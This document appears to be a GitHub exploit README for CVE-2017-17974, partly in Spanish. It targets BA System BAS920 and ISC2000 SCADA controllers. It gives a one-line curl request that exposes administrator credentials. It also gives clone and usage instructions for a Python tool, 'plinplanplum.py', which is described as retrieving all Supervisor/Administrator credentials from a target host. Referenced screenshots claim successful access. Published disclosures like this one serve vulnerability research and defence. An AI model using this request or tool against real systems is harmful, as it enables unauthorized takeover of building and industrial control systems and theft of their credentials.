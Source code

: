 #  Exploit; SCADAS "BAS920 & ISC2000"; Credentials Exposed
## [BA System] “Improper Access Control (Authorization)”

	[*] Exploit Title:       "SCADAS "BAS920 & ISC2000"; Credentials Exposed” 
	[*] CVE:                 CVE-2017-17974
	[*] Date:                29/12/2017
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              BA System
	[*] devices(tested):     BAS920 & ISC2000

Atacando SCADAS de la firma “BA SYSTEM”: 

![BAS920](screenshot/baIexplorer.png)

Accedemos a la plataforma y como era de esperar nos recibe un "login form"

![BAS920_2](screenshot/get_passwd.png)

### Exploit:

```
	curl http://<host>/isc/get_sid_js.aspx
```

### POCs:
![BAS920_3](screenshot/POC_1.png)

![BAS920_4](screenshot/POC_2.png)

### Adentro:
![BAS920_5](screenshot/INDOOR.png)

![BAS920_6](screenshot/INDOOR_2.png)


***

# TOOL: "Plin Plan Plun"  (ex - cafeina )

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/baCK_system.git
	usr@pwn:~$ cd baCK_system

## help
	
	usr@pwn:~/$ python plinplanplum.py --help

	python plinplanplum.py --help
	usage: plinplanplum.py [-h] [-v] --host HOST [--port PORT]

	[+] Obtaining all credentials for the Supervisor/Administrator account

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python plinplanplum.py --host 192.168.1.101 -p 81

***

## Usage:

![BAS920_7](screenshot/tool_passwd.png)

#### Las update !!!
![BAS920_8](screenshot/poc_tool_1.png)

